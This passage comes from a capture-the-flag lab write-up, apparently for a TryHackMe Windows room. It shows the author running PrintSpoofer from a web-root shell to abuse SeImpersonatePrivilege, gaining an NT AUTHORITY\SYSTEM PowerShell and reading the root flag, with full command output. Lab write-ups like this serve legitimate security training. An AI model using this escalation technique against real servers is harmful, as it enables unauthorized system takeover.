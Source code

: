 ## Elevate privileges (PrintSpoofer)

Now, let's elevate our privileges with `printspoofer`:

~~~
c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c powershell.exe
PrintSpoofer.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
~~~

## Root flag

We eventually read the root flag:

~~~
PS C:\Windows\system32> cd \users\administrator\desktop
cd \users\administrator\desktop
PS C:\users\administrator\desktop> dir
dir


    Directory: C:\users\administrator\desktop


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
-a----        7/25/2020   8:25 AM             35 root.txt                      


PS C:\users\administrator\desktop> cat root.txt
cat root.txt
THM{1fk5kf469devly1gl320zafgl345pv}
PS C:\users\administrator\desktop> 
~~~
